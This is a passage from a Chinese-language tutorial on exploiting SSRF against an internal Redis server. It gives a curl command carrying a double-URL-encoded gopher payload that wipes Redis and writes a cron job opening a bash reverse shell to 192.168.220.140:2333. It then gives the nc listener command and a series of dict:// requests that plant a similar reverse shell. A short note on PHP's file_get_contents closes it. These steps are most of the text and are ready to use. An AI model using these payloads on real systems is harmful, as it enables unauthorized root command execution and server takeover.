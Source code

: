 ```
curl -v 'http://xxx.xxx.xx.xx/xx.php?url=
gopher://172.21.0.2:6379/
_*1%250d%250a%248%250d%250aflushall%250d%250a%2a3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2464%250d%250a%250d%250a%250a%250a%2a%2f1%20%2a%20%2a%20%2a%20%2a%20bash%20-i%20%3E%26%20%2fdev%2ftcp%2f192.168.220.140%2f2333%200%3E%261%250a%250a%250a%250a%250a%250d%250a%250d%250a%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2fvar%2fspool%2fcron%2f%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2a1%250d%250a%244%250d%250asave%250d%250aquit%250d%250a'
```

redis命令进行了两次url编码，这里是通过gopher协议伪造的请求包用curl命令来发送；

payload采用的是bash反弹，定时程序路径是/var/spool/cron/root

发送请求之前在公网机192.168.220.140开启nc监听端口2333

```
nc -lvp 2333 （或nc -l 2333）
```

### 使用dict协议向Redis数据库写shell

curl扩展也支持dict协议，可以配合curl命令发送请求，但也可以直接在浏览器上或者bp发包请求。

可通过以下三条命令看是否能利用dict：

```
/xx.php?url=dict://172.21.0.2:6379/info
/xx.php?url=dict://172.21.0.2:6379/get:user
/xx.php?url=dict://172.21.0.2:6379/flushall
```

命令如下：

```
// 清除数据
http://xxx.xxx.xx.xx/xx.php?url=dict://172.21.0.2:6379/flushall
// 利用302跳转写入反弹命令
http://xxx.xxx.xx.xx/xx.php?url=dict://172.21.0.2:6379/bhost=*.*.*.*%26bport=1234
// 设置导出路径
http://xxx.xxx.xx.xx/xx.php?url=dict://172.21.0.2:6379/config:set:dir:/var/spool/cron/
// 设置导出名字
http://xxx.xxx.xx.xx/xx.php?url=dict://172.21.0.2:6379/config:set:dbfilename:root
// 导出
http://xxx.xxx.xx.xx/xx.php?url=dict://172.21.0.2:6379/save
```

在公网机上使用nc持续监听1234端口，等一会儿把包发完就会反弹shell。

## SSRF漏洞相关函数和协议

### file_get_contents()

`file_get_content`函数**从用户指定的url获取内容，然后指定一个文件名进行保存，并展示给用户**。file_put_content函数把一个字符串写入文件中。支持`php://input`协议。`file_get_contents`的gopher协议不能URL编码。
